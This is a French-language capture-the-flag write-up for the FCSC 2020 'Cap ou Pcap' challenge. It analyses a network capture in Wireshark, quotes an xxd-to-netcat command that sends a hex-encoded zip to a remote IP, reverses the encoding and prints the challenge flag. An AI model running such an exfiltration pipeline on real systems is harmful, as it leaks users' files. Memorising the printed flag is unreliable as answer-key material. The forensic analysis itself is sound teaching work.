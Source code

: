 # Cap ou Pcap

Bonjoir à tous. On va regarder au challenge Cap ou Pcap du [FCSC 2020](https://www.france-cybersecurity-challenge.fr/)

![intro](assets/intro.png)

Dans ce challenge on doit trouver le flag dans [ce fichier](ressources/cap.pcap)

## Kessessé ?

Ce fichier est un fichier de capture réseau. On va donc l'ouvrir avec [Wireshark](https://fr.wikipedia.org/wiki/Wireshark)

Regardons ce qu'il contient

![image1](assets/image1.png)

On voit ici des trames [TCP](https://fr.wikipedia.org/wiki/Transmission_Control_Protocol).

En regardant un peu plus bas, on tombe là dessus

![image2](assets/image2.png)

On voit une commande chaînée

```shell
xxd -p Documents/flag.zip | tr -d '\n' | netcat 172.20.20.133 20200
```

[`xxd`](http://www.man-linux-magique.net/man1/xxd.html) est un programme qui permet de convertir un fichier en représentation hexadécimale et inversement. (dixit la doc).

[`tr`](http://linuxcommand.org/lc3_man_pages/tr1.html) est un programme qui permet de convertir ou éliminer des caractères. (toujours dixit la doc).

[`netcat`](https://www.commandlinux.com/man-page/man1/nc.1.html) est un programme qui transmet de la donnée à une machine distante en TCP.

Donc, ce que veut dire cette commande c'est :
- Je converti le fichier `Documents/flag.zip` en hexadécimal.
- Je dégage les retours à la ligne (`\n`)
- J'envoie le tout à la machine 172.20.20.133 sur le port 20200

On regarde un peu plus loin dans les trames et on trouve ça

![image3](assets/image3.png)

Une trame qui contient pas mal de données. Fort probable que ce soit le fameux `flag.zip`

## Extraction

Du coup on va extraire ces données comme ceci

![image4](assets/image4.png)

On va sauvegarder ça dans un fichier qu'on va appeler `flag` par exemple.

On va essayer de faire l'opération inverse de ce qu'on a vu dans les trames TCP un peu plus haut

```shell

xxd -r -p flag > flag.zip
```

On a un fichier `flag.zip` qui vient d'être créé.

On regarde ce qu'il contient

![image5](assets/image5.png)

On a bien un fichier `flag.txt`

Si on l'extrait et qu'on affiche son contenu

```shell
root@hostname:~# cat flag.txt
FCSC{6ec28b4e2b0f1bd9eb88257d650f558afec4e23f3449197b4bfc9d61810811e3}
```

HIP HIP HIP ? HOURRA !!!!

![cat](assets/cat.jpg)
